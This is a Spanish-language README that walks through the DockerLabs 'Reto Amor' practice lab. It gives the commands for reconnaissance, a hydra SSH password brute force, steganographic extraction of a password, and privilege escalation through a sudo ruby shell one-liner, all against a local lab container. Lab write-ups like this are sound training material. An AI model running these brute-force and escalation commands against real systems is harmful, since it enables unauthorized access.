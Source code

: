 **Mayor DIEGO A. ESMERAL M.**


# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔧 Herramientas Empleadas

| HERRAMIENTA | DEFINICION | FUNCIONALIDAD | CASOS DE USO |
|------------|------------|---------------|--------------|
| **DOCKER** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **SCP** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **NETDISCOVER** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **NMAP** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **GOBUSTER** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **HYDRA** | Herramienta de cracking para servicios remotos que permite ataques de fuerza bruta con múltiples protocolos. | Automatiza intentos de autenticación contra servicios como SSH, FTP, HTTP, RDP, etc. | Test de contraseñas débiles, auditoría de accesos, ejercicios de Red Team. |
| **STEGHIDE** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **BASE64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

-------------------------------------------------------------------------------------------------------------------------------------------------------------------


## 🛠️ Desglose de Comandos Utilizados


# 1. Transferir carpeta

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

# 2. Instalar Docker (si aplica)

```bash
sudo apt install docker.io
```

# 3. Desplegar máquina

```bash
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
```

# 4. Obtener interfaz de red

```bash
ip add
```

# 5. Escaneo de red en docker0

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

# 6. Escanear puertos abiertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```
# 7. Fuzzing web

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

# 8. Fuerza bruta SSH

![Fuerza Bruta](Fuerza bruta SSH.png)

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

# 9. Acceso por SSH

```bash
ssh carlota@172.17.0.2
```
# 10. Buscar imagen

```bash
cd /carlota/Desktop/fotos/vacaciones
```

# 11. Descargar imagen a Kali

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![Amor](AMOR.png)

# 12. Extraer contenido oculto

![Decodificacion](stghide.png)

```bash
steghide extract -sf imagen.jpg
```
# 13. Decodificar mensaje oculto

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

# 14. Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧠 Diagrama de flujo

![Diagrama de Flujo](DiagrammeAMOR.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 💬 Resultado Final

Al finalizar el laboratorio se logra:

Identificar servicios expuestos (22, 80).

Obtener acceso SSH por fuerza bruta.

Detectar archivo con datos esteganográficos.

Decodificar contraseña y escalar privilegios a root.

![Herramientas de Ciberseguridad y sus Aplicaciones](Images/27.png)

